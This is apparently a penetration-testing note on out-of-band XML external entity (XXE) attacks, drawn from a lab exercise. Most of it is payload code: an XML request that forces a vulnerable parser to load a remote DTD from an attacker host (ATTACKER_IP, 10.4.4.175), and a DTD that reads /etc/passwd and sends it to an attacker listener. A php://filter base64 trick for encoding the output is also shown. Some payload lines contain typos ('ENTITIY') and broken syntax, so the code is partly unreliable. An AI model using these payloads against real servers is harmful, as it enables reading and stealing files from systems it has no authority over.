







# Advanced XML External entities Out of Band (OOB)

## Advanced XXE OOB

### Advanced XML External entities Out of Band (OOB)

* **Payloads (bypass WAF and so on):**

[https://gist.github.com/staaldraad/01415b990939494879b4](https://gist.github.com/staaldraad/01415b990939494879b4) [https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/XXE-Fuzzing.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/XXE-Fuzzing.txt)

* **In case we are not able to get a response in the specific tag (char filtering/restriction) we can use a remote Document Type Definition**

### DTD ( D**ocument Type Definition)**

* **DTD is a well structured XML file that definies the structure and the legal element and attributes of a XML file.**

**4 stages attacks :**

```
• Modified XXE XML attack
• Force the Vulnerable XML parser to grab Document Type Definition on our remote attacking machine.
• DTD file contains code to read /etc/passwd
• DTD file contains code to exfil the contents of the data out (on our attacking machine)
```

* **Modified XXE attack :**

```
<!ENTITY %dtd SYSTEM “http://ATTACKER_IP:80/payload.dtd” %dtd;

data=<?xml version="1.0" ?><!DOCTYPE thp [ <!ELEMENT thp ANY><!ENTITY % dtd SYSTEM "http://10.4.4.175/payload.dtd"> %dtd;]<thp><error> %26send%3b</error></thp>
```




* **Create the payload.dtd on the attacking machine :**

`root@thp3:~/Documents/thp3/exercices/xxe-oob# cat payload.dtd`

```
<!ENTITIY % file SYSTEM "file:///etc/passwd">
<!ENTITIY % all "<!ENTITY send SYSTEM 'http://10.4.4.175:8888/collect=%file;'>">
%all;
```



* **Host the file and set up a listener on the attacker machine :**



* **Getting in parser error and no output :**



*   **php wrappers**&#x20;

    * Modify the payload.dtd to encode the output

    `php://filter/read=convert.base64-encode/resource=file:///etc/passwd`








